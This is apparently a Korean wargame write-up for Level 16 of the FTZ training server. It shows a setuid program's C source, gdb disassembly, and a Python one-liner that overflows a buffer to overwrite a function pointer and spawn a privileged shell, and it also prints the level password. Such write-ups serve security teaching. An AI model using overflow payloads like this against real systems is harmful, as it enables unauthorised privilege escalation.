 ```yaml
---
sort: 16
---
```


# Level 16

```note
id : level16

password : about to cause mass
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
#include <stdio.h>
 
void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}
 
void printit() {
  printf("Hello there!\n");
}
 
main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();
}
```

함수포인터인 call에 저장되어있는 printit 함수 주소를 shell 함수 주소로 바꾸면 끝난다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048518 (main+0):	push   %ebp
0x08048519 (main+1):	mov    %esp,%ebp
0x0804851b (main+3):	sub    $0x38,%esp

<b>0x0804851e (main+6):	movl   $0x8048500,0xfffffff0(%ebp) </b>

0x08048525 (main+13):	sub    $0x4,%esp
0x08048528 (main+16):	pushl  0x80496e8
0x0804852e (main+22):	push   $0x30

<b>0x08048530 (main+24):	lea    0xffffffc8(%ebp),%eax
0x08048533 (main+27):	push   %eax
0x08048534 (main+28):	call   0x8048384 (fgets) </b>

0x08048539 (main+33):	add    $0x10,%esp

<b>0x0804853c (main+36):	mov    0xfffffff0(%ebp),%eax
0x0804853f (main+39):	call   *%eax </b>

0x08048541 (main+41):	leave  
0x08048542 (main+42):	ret


(gdb) disas shell
Dump of assembler code for function shell:
<b>0x080484d0 (shell+0):	push   %ebp </b>
0x080484d1 (shell+1):	mov    %esp,%ebp
0x080484d3 (shell+3):	sub    $0x8,%esp
0x080484d6 (shell+6):	sub    $0x8,%esp
0x080484d9 (shell+9):	push   $0xc19
0x080484de (shell+14):	push   $0xc19
0x080484e3 (shell+19):	call   0x80483b4 (setreuid)
0x080484e8 (shell+24):	add    $0x10,%esp
0x080484eb (shell+27):	sub    $0xc,%esp
0x080484ee (shell+30):	push   $0x80485b8
0x080484f3 (shell+35):	call   0x8048364 (system)
0x080484f8 (shell+40):	add    $0x10,%esp
0x080484fb (shell+43):	leave  
0x080484fc (shell+44):	ret    
0x080484fd (shell+45):	lea    0x0(%esi),%esi
</pre>

shell 함수 주소는 0x080484d0이다.

```bash
# padding 0x28 byte + 0x080484d0
[level16@ftz level16]$ (python -c "print('A'*0x28+'\xd0\x84\x04\x08\n')";cat) | ./attackme 
my-pass
```

```tip
## 알게 된 점

buffer overflow
```
